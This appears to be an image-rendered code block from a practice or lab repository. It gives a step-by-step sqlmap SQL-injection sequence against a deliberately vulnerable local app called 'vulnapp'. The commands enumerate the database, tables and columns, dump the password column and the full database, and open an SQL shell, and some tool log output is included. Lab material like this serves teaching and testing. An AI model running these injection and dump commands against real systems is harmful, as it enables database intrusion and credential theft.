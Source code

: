 ```
# extract the db, testable parameter = comment
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --current-db

# extract db tables
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --dbms=mysql -D vulnapp --tables

# extract columns from tbl_secret
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --dbms=mysql -D vulnapp -T tbl_secret --columns

# extract the values from password columns of tbl_secret
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --dbms=mysql -D vulnapp -T tbl_secret -C password --dump

# dump the entire tbl_secret
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --dbms=mysql -D vulnapp -T tbl_secret --dump

# dump the entire vulnapp db
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --dbms=mysql -D vulnapp --dump-all

[15:01:29] [INFO] table 'vulnapp.tbl_post01' dumped to CSV file '/root/.sqlmap/output/localhost/dump/vulnapp/tbl_post01.csv'
[15:01:29] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

# prompt for an interactive SQL shell
sqlmap --url http://localhost:5000/case02 --data "comment=hello" -p "comment" --dbms=mysql -D vulnapp --sql-shell
```
